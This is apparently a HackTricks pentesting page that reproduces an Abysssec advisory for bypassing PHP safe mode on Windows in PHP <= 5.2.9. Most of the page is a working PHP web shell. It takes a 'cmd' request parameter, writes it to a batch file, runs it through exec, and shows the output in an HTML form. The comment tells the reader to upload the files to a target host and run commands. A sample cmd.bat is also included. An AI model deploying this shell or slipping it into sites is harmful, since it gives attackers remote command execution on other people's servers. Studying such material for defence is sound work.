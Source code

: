 {{#include ../../../../banners/hacktricks-training.md}}

# PHP &lt;= 5.2.9 on windows

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

{{#tabs}}
{{#tab name="exploit.php"}}

```php
<?php
//cmd.php
/*
	Abysssec Inc Public Advisory

	Here is another safemod bypass vulnerability exist in php <= 5.2.9 on windows .
	the problem comes from OS behavior - implement  and interfacing between php
	and operation systems directory structure . the problem is php won't tell difference
	between directory browsing in linux and windows this can lead attacker to ability
	execute his / her commands on targert machie even in SafeMod On  (php.ini setting) .
	=============================================================================
	in linux when you want open a directory for example php directory you need
	to go to /usr/bin/php and you can't use \usr\bin\php . but windows won't tell
	diffence between slash and back slash it means there is no didffrence  between
	c:\php and c:/php , and this is not vulnerability but itself but  because of this  simple
	php implement "\" character can escape safemode using  function like excec .
	here is a PoC for discussed vulnerability . just upload files on your target host and execute
	your commands .
	==============================================================================
	note : this vulnerabities is just for educational purpose and author will be not be responsible
	for any damage using this vulnerabilty.
	==============================================================================
	for more information visit Abysssec.com
	feel free to contact me at admin [at] abysssec.com
*/
	$cmd = $_REQUEST['cmd'];
	if ($cmd){
	$batch = fopen ("cmd.bat","w");
	fwrite($batch,"$cmd>abysssec.txt"."\r\n");
	fwrite($batch,"exit");
	fclose($batch);
	exec("\start cmd.bat");
	echo "<center>";
	echo "<h1>Abysssec.com PHP <= 5.2.9 SafeMod Bypasser</h1>";
	echo "<textarea rows=20 cols=60>";
	require("abysssec.txt");
	echo "</textarea>";
	echo "</center>";
	}
?>

<html>
<body bgcolor=#000000 and text=#DO0000>
<center>
<form method=post>
<input type=text name=cmd >
<input type=submit value=bypass>
</form>
</center>
</body>
</html>
```

{{#endtab}}

{{#tab name="cmd.bat"}}

```
dir > abyss.txt
exit
```

{{#endtab}}
{{#endtabs}}

{{#include ../../../../banners/hacktricks-training.md}}

